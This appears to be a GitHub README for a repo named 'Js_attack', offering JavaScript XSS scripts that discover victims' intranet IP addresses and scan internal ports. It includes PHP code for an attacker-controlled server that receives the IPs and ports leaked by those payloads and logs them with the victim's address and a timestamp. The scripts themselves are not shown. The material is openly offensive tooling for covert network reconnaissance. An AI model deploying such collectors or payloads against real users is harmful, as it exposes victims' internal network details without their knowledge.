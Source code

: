 Js_attack - some .jS with xss to attack
===================

Usage example
------------------

Get-Intranet-ip.js & Scan-Intranet-port.js: 
you can make a server to accept ip nad port:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips


